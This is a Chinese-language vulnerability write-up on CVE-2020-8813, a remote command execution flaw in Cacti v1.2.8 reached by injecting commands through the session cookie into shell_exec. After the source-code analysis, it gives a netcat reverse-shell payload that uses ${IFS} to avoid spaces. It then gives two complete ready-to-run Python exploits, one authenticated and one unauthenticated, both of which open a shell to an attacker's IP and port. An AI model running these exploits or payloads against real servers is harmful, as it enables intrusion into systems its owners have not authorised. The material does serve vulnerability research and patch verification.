







# （CVE-2020-8813）Cacti v1.2.8 远程命令执行漏洞

> 原文：[http://book.iwonder.run/0day/Cacti/CVE-2020-8813.html](http://book.iwonder.run/0day/Cacti/CVE-2020-8813.html)

## 一、漏洞简介

需要拥有登录账号密码；或者网站启用了“ Gest Realtime Graphs”特权功能。

*   1、判断是否存在“/graph_realtime.php?action=init”链接

*   2、判断 1、存在“poller_realtime.php”字样，则存在漏洞。

## 二、漏洞影响

Cacti v1.2.8

## 三、复现过程

### 漏洞分析

我通过分析 Cacti 主要代码中的多个功能的代码发现了此漏洞，我必须将多个因素联系在一起才能执行代码，该漏洞主要发生在攻击者尝试将恶意代码注入“ Cacti” cookie 变量时，在与一些字符串连接后被传递给 shell_exec 函数，但是当我尝试操作 cookie 值时会遇到身份验证问题，这将使我无法访问该页面，因此解决了我注意到可以按以下方式访问易受攻击的页面：一个不需要进行身份验证即可访问的“来宾”，因此我链接了我的漏洞利用程序，以启用“ graph_realtime.php”页面的“来宾”视图，然后发出恶意请求，以便在主机上执行代码。

为了完成这项工作，首先，我需要向“ user_admin.php”页面发送请求以启用 realtime_graph 的“来宾”特权，然后再次将恶意请求发送至“ graph_realtime.php”页面。

因此，我像往常一样从[超级简单的 RCE 扫描器](https://github.com/mhaskar/RCEScanner)脚本开始，以在 Cacti 中寻找 RCE。

运行脚本后，在“ graph_realtime.php”文件中得到了一个有趣的结果：

> graph_realtime.php

```
/* call poller */
$graph_rrd = read_config_option('realtime_cache_path') . '/user_' . session_id() . '_lgi_' . get_request_var('local_graph_id') . '.png';
$command   = read_config_option('path_php_binary');
$args      = sprintf('poller_realtime.php --graph=%s --interval=%d --poller_id=' . session_id(), get_request_var('local_graph_id'), $graph_data_array['ds_step']);
shell_exec("$command $args");

/* construct the image name  */
$graph_data_array['export_realtime'] = $graph_rrd;
$graph_data_array['output_flag']     = RRDTOOL_OUTPUT_GRAPH_DATA;
$null_param = array(); 
```

从行号 170 和 171 中可以看到，我们正在接收几个参数并将它们连接在一起，我们还可以看到有一个名为“ get_request_var”的函数，该函数执行以下操作：

> html_utility.php

```
function get_request_var($name, $default = '') {
    global $_CACTI_REQUEST;

    $log_validation = read_config_option('log_validation');

    if (isset($_CACTI_REQUEST[$name])) {
        return $_CACTI_REQUEST[$name];
    } elseif (isset_request_var($name)) {
        if ($log_validation == 'on') {
            html_log_input_error($name);
        }

        set_request_var($name, $_REQUEST[$name]);

        return $_REQUEST[$name];
    } else {
        return $default;
    }
} 
```

正如我们所看到的，该函数将通过“ set_request_var”函数处理输入并设置参数值，该函数将执行以下操作：

> html_utility.php

```
function set_request_var($variable, $value) {
    global $_CACTI_REQUEST;

    $_CACTI_REQUEST[$variable] = $value;
    $_REQUEST[$variable]       = $value;
    $_POST[$variable]          = $value;
    $_GET[$variable]           = $value;
} 
```

因此，回到我们的“ graph_realtime.php”，我们可以看到我们可以控制以下几个输入：

*   local_graph_id
*   $ graph_data_array ['ds_step']的值

但不幸的是，由于以下几个原因，我们不能这样做：首先，我们注意到 graph_realtime.php 文件中的第 171 行使用 sprintf 来处理输入，并且我们可以看到第一个值“ graph”充满了我们可以控制的值“ local_graph_id”！但是再次不幸的是，该值将被名为“ get_filter_request_var”的函数过滤，我们可以看到它的值已在 graph_realtime.php 第 38 行中过滤，如下所示：

> html_utility.php

```
function get_filter_request_var($name, $filter = FILTER_VALIDATE_INT, $options = array()) {
    if (isset_request_var($name)) {
        if (isempty_request_var($name)) {
            set_request_var($name, get_nfilter_request_var($name));

            return get_request_var($name);
        } elseif (get_nfilter_request_var($name) == 'undefined') {
            if (isset($options['default'])) {
                set_request_var($name, $options['default']);

                return $options['default'];
            } else {
                set_request_var($name, '');

                return '';
            }
        } else {
            if (get_nfilter_request_var($name) == '0') {
                $value = '0';
            } elseif (get_nfilter_request_var($name) == 'undefined') {
                if (isset($options['default'])) {
                    $value = $options['default'];
                } else {
                    $value = '';
                }
            } elseif (isempty_request_var($name)) {
                $value = '';
            } elseif ($filter == FILTER_VALIDATE_IS_REGEX) {
                if (is_base64_encoded($_REQUEST[$name])) {
                    $_REQUEST[$name] = utf8_decode(base64_decode($_REQUEST[$name]));
                }

                $valid = validate_is_regex($_REQUEST[$name]);
                if ($valid === true) {
                    $value = $_REQUEST[$name];
                } else {
                    $value = false;
                    $custom_error = $valid;
                }
            } elseif ($filter == FILTER_VALIDATE_IS_NUMERIC_ARRAY) {
                $valid = true;
                if (is_array($_REQUEST[$name])) {
                    foreach($_REQUEST[$name] AS $number) {
                        if (!is_numeric($number)) {
                            $valid = false;
                            break;
                        }
                    }
                } else {
                    $valid = false;
                }

                if ($valid == true) {
                    $value = $_REQUEST[$name];
                } else {
                    $value = false;
                }
            } elseif ($filter == FILTER_VALIDATE_IS_NUMERIC_LIST) {
                $valid = true;
                $values = preg_split('/,/', $_REQUEST[$name], NULL, PREG_SPLIT_NO_EMPTY);
                foreach($values AS $number) {
                    if (!is_numeric($number)) {
                        $valid = false;
                        break;
                    }
                }

                if ($valid == true) {
                    $value = $_REQUEST[$name];
                } else {
                    $value = false;
                }
            } elseif (!cacti_sizeof($options)) {
                $value = filter_var($_REQUEST[$name], $filter);
            } else {
                $value = filter_var($_REQUEST[$name], $filter, $options);
            }
        }

        if ($value === false) {
            if ($filter == FILTER_VALIDATE_IS_REGEX) {
                $_SESSION['custom_error'] = __('The search term "%s" is not valid. Error is %s', html_escape(get_nfilter_request_var($name)), html_escape($custom_error));
                set_request_var($name, '');
                raise_message('custom_error');
            } else {
                die_html_input_error($name, get_nfilter_request_var($name));
            }
        } else {
            set_request_var($name, $value);

            return $value;
        }
    } else {
        if (isset($options['default'])) {
            set_request_var($name, $options['default']);

            return $options['default'];
        } else {
            return;
        }
    }
} 
```

该函数将过滤输入并返回一个干净的变量以传递给该函数。

另外，对于第二个变量“ $ graph_data_array ['ds_step']”，它已经通过 sprintf 处理为％d，表示“十进制值”，因此我们不能使用它来注入恶意命令。

那么我们怎样才能使这件事起作用呢？让我们再次看一下代码：

> graph_realtime.php

```
/* call poller */
$graph_rrd = read_config_option('realtime_cache_path') . '/user_' . session_id() . '_lgi_' . get_request_var('local_graph_id') . '.png';
$command   = read_config_option('path_php_binary');
$args      = sprintf('poller_realtime.php --graph=%s --interval=%d --poller_id=' . session_id(), get_request_var('local_graph_id'), $graph_data_array['ds_step']);
shell_exec("$command $args");

/* construct the image name  */
$graph_data_array['export_realtime'] = $graph_rrd;
$graph_data_array['output_flag']     = RRDTOOL_OUTPUT_GRAPH_DATA;
$null_param = array(); 
```

我们得到另一个传递给 shell_exec 的变量，它是“ session_id（）”函数的值，该函数将返回用户当前会话的值，这意味着我们可以使用它来注入命令！

可是等等！如果我们操纵了会话，则将无法访问该页面，因为该页面要求对用户进行身份验证才能访问该页面。因此，在软件中进行了一些额外的挖掘之后，我发现如果我们能够以访客身份访问该页面启用了一种称为“实时图”的特殊特权，我们可以从此页面看到：



让我们尝试在没有启用“访客实时图”特权的情况下访问此页面：



如我们所见，由于权限问题，我们无法访问该页面，不允许尝试启用它并访问该页面以获取以下内容：


完美的是，我们访问了页面，现在我将向“ graph_realtime.php”发送请求，并添加一条调试语句，该语句将回显将传递给 shell_exec 的参数：




如我们所见，我们将会话打印输出给我们，因此让我们尝试将自定义字符串注入会话中，看看会发生什么：


### payload 编写

在控制了会话值之后，我们需要使用它来在系统上执行代码，但这仍然是一个会话值，这意味着即使对它进行编码也不能在其中使用某些字符，因此我们需要编写“会话友好” ”，我们可以注入这些有效负载而无需强制应用程序为我们生成另一个 Cookie 值。

例如，如果我对字符串“ Hi Payload”进行编码并将其传递给应用程序，我将得到以下信息：




如我们所见，该应用程序为我们设置了一个 cookie 而不是我们注入的 cookie，因此要解决此问题，我们需要使用自定义有效负载。

因此，为了避免使用空格，我想到了使用“ $ {IFS}” bash 变量来表示空格的想法。

当然，我们需要使用“;”转义命令 如下所示：

```
;payload 
```

如果要使用 netcat 获得外壳，则需要创建以下有效负载：

```
;``nc``${IFS}-e${IFS}``/bin/bash``${IFS}ip${IFS}port 
```

让我们尝试一下，首先对有效负载进行编码，以查看结果：


然后将其发送到应用程序以获取以下信息：



### 完整版的 poc

为了自动化利用过程，我编写了一个 python 代码来利用此漏洞，利用此漏洞将处理登录过程以启用“来宾实时图”特权，然后将生成有效负载并将精心制作的请求发送到“ graph_realtime.php”页面为了获得反向壳。

这是完整的利用代码：

```
#!/usr/bin/python3

# Exploit Title: Cacti v1.2.8 Remote Code Execution
# Date: 03/02/2020
# Exploit Author: Askar (@mohammadaskar2)
# CVE: CVE-2020-8813
# Vendor Homepage: https://cacti.net/
# Version: v1.2.8
# Tested on: CentOS 7.3 / PHP 7.1.33

import requests
import sys
import warnings
from bs4 import BeautifulSoup
from urllib.parse import quote

warnings.filterwarnings("ignore", category=UserWarning, module='bs4')

if len(sys.argv) != 6:
    print("[~] Usage : ./Cacti-exploit.py url username password ip port")
    exit()

url = sys.argv[1]
username = sys.argv[2]
password = sys.argv[3]
ip = sys.argv[4]
port = sys.argv[5]

def login(token):
    login_info = {
    "login_username": username,
    "login_password": password,
    "action": "login",
    "__csrf_magic": token
    }
    login_request = request.post(url+"/index.php", login_info)
    login_text = login_request.text
    if "Invalid User Name/Password Please Retype" in login_text:
        return False
    else:
        return True

def enable_guest(token):
    request_info = {
    "id": "3",
    "section25": "on",
    "section7": "on",
    "tab": "realms",
    "save_component_realm_perms": 1,
    "action": "save",
    "__csrf_magic": token
    }
    enable_request = request.post(url+"/user_admin.php?header=false", request_info)
    if enable_request:
        return True
    else:
        return False

def send_exploit():
    payload = ";nc${IFS}-e${IFS}/bin/bash${IFS}%s${IFS}%s" % (ip, port)
    cookies = {'Cacti': quote(payload)}
    requests.get(url+"/graph_realtime.php?action=init", cookies=cookies)

request = requests.session()
print("[+]Retrieving login CSRF token")
page = request.get(url+"/index.php")
html_content = page.text
soup = BeautifulSoup(html_content, "html5lib")
token = soup.findAll('input')[0].get("value")
if token:
    print("[+]Token Found : %s" % token)
    print("[+]Sending creds ..")
    login_status = login(token)
    if login_status:
        print("[+]Successfully LoggedIn")
        print("[+]Retrieving CSRF token ..")
        page = request.get(url+"/user_admin.php?action=user_edit&id=3&tab=realms")
        html_content = page.text
        soup = BeautifulSoup(html_content, "html5lib")
        token = soup.findAll('input')[1].get("value")
        if token:
            print("[+]Making some noise ..")
            guest_realtime = enable_guest(token)
            if guest_realtime:
                print("[+]Sending malicous request, check your nc ;)")
                send_exploit()
            else:
                print("[-]Error while activating the malicous account")

        else:
            print("[-] Unable to retrieve CSRF token from admin page!")
            exit()

    else:
        print("[-]Cannot Login!")
else:
    print("[-] Unable to retrieve CSRF token!")
    exit() 
```

运行漏洞利用代码后，我们将获得以下内容：



### 未经身份验证的利用

如果 Cacti 启用了“来宾实时图”特权，则无需身份验证即可利用此漏洞，因此在这种情况下，不需要身份验证部分，您可以使用以下代码来利用此漏洞：

```
#!/usr/bin/python3

# Exploit Title: Cacti v1.2.8 Unauthenticated Remote Code Execution
# Date: 03/02/2020
# Exploit Author: Askar (@mohammadaskar2)
# CVE: CVE-2020-8813
# Vendor Homepage: https://cacti.net/
# Version: v1.2.8
# Tested on: CentOS 7.3 / PHP 7.1.33

import requests
import sys
import warnings
from bs4 import BeautifulSoup
from urllib.parse import quote

warnings.filterwarnings("ignore", category=UserWarning, module='bs4')

if len(sys.argv) != 4:
    print("[~] Usage : ./Cacti-exploit.py url ip port")
    exit()

url = sys.argv[1]
ip = sys.argv[2]
port = sys.argv[3]

def send_exploit(url):
    payload = ";nc${IFS}-e${IFS}/bin/bash${IFS}%s${IFS}%s" % (ip, port)
    cookies = {'Cacti': quote(payload)}
    path = url+"/graph_realtime.php?action=init"
    req = requests.get(path)
    if req.status_code == 200 and "poller_realtime.php" in req.text:
        print("[+] File Found and Guest is enabled!")
        print("[+] Sending malicous request, check your nc ;)")
        requests.get(path, cookies=cookies)
    else:
        print("[+] Error while requesting the file!")

send_exploit(url) 
```



如我们所见，如果启用了“ Gest Realtime Graphs”特权，我们也可以毫无问题地利用它，因此最好检查“ graph_realtime.php”文件是否具有此访问特权。

## 参考链接

> [https://shells.systems/cacti-v1-2-8-authenticated-remote-code-execution-cve-2020-8813/](https://shells.systems/cacti-v1-2-8-authenticated-remote-code-execution-cve-2020-8813/)

